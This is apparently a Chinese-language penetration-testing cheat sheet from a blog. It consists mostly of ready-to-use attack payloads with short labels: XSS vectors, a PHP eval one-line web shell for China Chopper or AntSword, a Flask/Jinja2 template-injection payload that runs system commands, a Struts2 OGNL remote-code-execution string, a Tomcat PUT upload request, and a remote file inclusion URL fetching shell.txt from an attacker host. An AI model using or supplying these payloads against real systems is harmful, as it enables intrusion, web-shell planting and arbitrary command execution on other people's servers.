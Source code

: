 ```yaml
---
title: "速查表"
date: 2024-12-20T20:27:00+08:00
draft: false
---
```


### XSS
```html
<script>alert(666);</script>
<a href="javascript:alert(666)">touch me!</a>
<img src=1 onerror=alert(666)>
<input type=text onclick=alert(666) />
```
变体：改大小写，加引号，斜杠代替空格，使用回车与换行符，使用编码

### 管道符
#### Linux常用管道符：
    ;前面的执行完执行后面的
    |显示后面的执行结果
    ||当前面的执行出错时执行后面的
#### Windows常用管道符
    &前面的语句为假则直接执行后面的
    &&前面的语句为假则直接出错，后面的也不执行
    |直接执行后面的语句
    ||前面出错执行后面的

### 危险函数与常量
#### PHP中常见代码执行函数：
    array_map()
    eval()
    assert()
    preg_replace()
    call_user_func()
    $a($b)动态函数

#### PHP中常见系统命令执行函数：
    system()
    exec()
    shell_exec()
    passthru()
    popen()
    反引号"`"
#### 危险常量
```php
__LINE__       //文件中的当前行号
__FILE__       //文件的完整路径和文件名。如果用在被包含文件中，则返回被包含的文件名
__DIR__        //文件所在的目录。如果用在被包括文件中，则返回被包括的文件所在的目录
__FUNCTION__   //该常量所在的函数名称（PHP 4.3.0 新加）。自PHP5起本常量返回该函数被定义时的名字（区分大小写）。在PHP4中该值总是小写字母的
__CLASS__      //该类被定义时的名字（PHP 4.3.0 新加）。自PHP5起本常量返回该类被定义时的名字（区分大小写）
__TRAIT__      //Trait的名字（PHP 5.4.0 新加）。自PHP5.4.0起，PHP实现了代码复用的一个方法，称为traits
__METHOD__     //类的方法名（PHP 5.0.0 新加）。返回该方法被定义时的名字（区分大小写）
__NAMESPACE__  //当前命名空间的名称（区分大小写）。此常量是在编译时定义的（PHP 5.3.0 新增）
```

### 一句话系列
```php
<?php phpinfo();?>
```
查看配置信息（注：php报错时会暴露绝对路径）
```php
<?php @eval($_POST["123456"])?>
```
一句话木马，后期可使用中国菜刀或中国蚁剑进行文件内容查看
```java
_(new java.lang.ProcessBuilder("touch","/tmp/success")).start()=sy
```
Spring漏洞关键代码段
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
flask执行任意代码漏洞
```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```
Apache 任意代码执行漏洞
```
PUT/hack.jsp HTTP/1.1
...
<%out.print("Hello, world!")%>
```
Tomcat 任意文件上传漏洞

```URL
http://[dest_IP]/include.php?page=http://[src_IP]/shell.txt
```
远程文件包含
```URL
?page=php://input
```
在POST请求中填入代码即可远程执行